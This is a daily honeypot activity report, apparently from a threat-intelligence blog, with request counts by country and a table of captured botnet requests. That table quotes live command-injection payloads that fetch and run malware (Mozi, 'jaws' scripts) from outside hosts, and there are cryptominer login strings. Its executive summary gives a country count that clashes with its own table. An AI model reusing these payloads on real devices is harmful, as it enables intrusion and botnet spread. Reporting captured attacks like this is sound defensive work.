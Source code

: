 ```yaml
---
title: "Report: 2025-07-22 "
date: 2025-07-22
desciption: "Report: 2025-07-22" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-22 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 6 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 6 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 511 requests were recorded during the day, originating from 6 different countries, with a peak of 113 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                              |
|:---------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 8.222.162.163  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                 |
| 8.222.167.136  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                 |
| 45.135.194.11  | GET /cgi-bin/shortcut_telnet.cgi?wget%20-O-%20http%3A%2F%2F38.59.219.27%2Frondo.gigatex.sh%7Csh%3B HTTP/1.1                                                                          |
| 45.153.34.79   | GET /shell?cd+/tmp;rm+-rf+arm7;nohup+wget+http:/\x5C/45.125.66.95/x86;chmod+777+x86;./x86;cd+/tmp;rm+-rf+arm7;nohup+wget+http:/\x5C/45.125.66.95/arm7;chmod+777+arm7;./arm7 HTTP/1.1 |
| 8.219.208.212  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                 |
| 125.47.196.217 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://125.47.196.217:34359/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0        |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|----:|----------------------:|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 109 |                     1 | {\x22id\x22:1,\x22jsonrpc\x22:\x222.0\x22,\x22method\x22:\x22login\x22,\x22params\x22:{\x22login\x22:\x2244VA89LzxY3CcUKUtxTcrk6Zz1fS3tV6aGyJJmYY1o9iiUmyjmWDGTb2ekCFjPRqaSXWpf1AiDKnZ2JwTpZbq2c67Fsyh8m\x22,\x22pass\x22:\x22x\x22,\x22agent\x22:\x22XMRig/6.15.3 (Windows NT 10.0; Win64; x64) libuv/1.42.0 msvc/2019\x22,\x22algo\x22:[\x22cn/1\x22,\x22cn/2\x22,\x22cn/r\x22,\x22cn/fast\x22,\x22cn/half\x22,\x22cn/xao\x22,\x22cn/rto\x22,\x22cn/rwz\x22,\x22cn/zls\x22,\x22cn/double\x22,\x22cn/ccx\x22,\x22cn-lite/1\x22,\x22cn-heavy/0\x22,\x22cn-heavy/tube\x22,\x22cn-heavy/xhv\x22,\x22cn-pico\x22,\x22cn-pico/tlo\x22,\x22cn/upx2\x22,\x22rx/0\x22,\x22rx/wow\x22,\x22rx/arq\x22,\x22rx/graft\x22,\x22rx/sfx\x22,\x22rx/keva\x22,\x22argon2/chukwa\x22,\x22argon2/chukwav2\x22,\x22argon2/ninja\x22,\x22astrobwt\x22]}} |
| 114 |                     1 | {\x22id\x22:1,\x22method\x22:\x22eth_submitLogin\x22,\x22worker\x22:\x22igwrcvap\x22,\x22params\x22:[\x220x5ca06400e508b0177566d4d3dea0828a5d9b0473\x22,\x22x\x22],\x22jsonrpc\x22:\x222.0\x22}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 125 |                     1 | \x00\x0E8\xAFz\x8C\x22\xC0\xA4k3\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 189 |                     1 | \x00\x0E\x08\x9B\x8F*n\x81\x1C6N\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 200 |                     1 | \x00\x0E8\x9B\x8F*n\x81\x1C6N\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 222 |                     1 | \x00\x0E8\xB7\xA4F\xF1v\x91\x09\x04\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   113 | GB                 |
|  1 |                   107 | US                 |
|  2 |                    73 | NL                 |
|  3 |                    28 | FR                 |
|  4 |                    18 | DE                 |
|  5 |                    18 | CA                 |
|  6 |                    17 | JP                 |
|  7 |                    17 | BG                 |
|  8 |                    16 | PL                 |
|  9 |                    15 | ES                 |
| 10 |                    13 | SG                 |
| 11 |                    13 | SC                 |
| 12 |                    12 | RO                 |
| 13 |                     9 | CN                 |
| 14 |                     6 | BE                 |
| 15 |                     6 | MU                 |
| 16 |                     5 | PT                 |
| 17 |                     5 | IN                 |
| 18 |                     3 | RU                 |
| 19 |                     3 | HK                 |
| 20 |                     3 | KZ                 |
| 21 |                     2 | IT                 |
| 22 |                     2 | ZA                 |
| 23 |                     1 | CH                 |
| 24 |                     1 | AR                 |
| 25 |                     1 | KR                 |
| 26 |                     1 | AE                 |
| 27 |                     1 | LT                 |
| 28 |                     1 | TR                 |
| 29 |                     1 | CO                 |
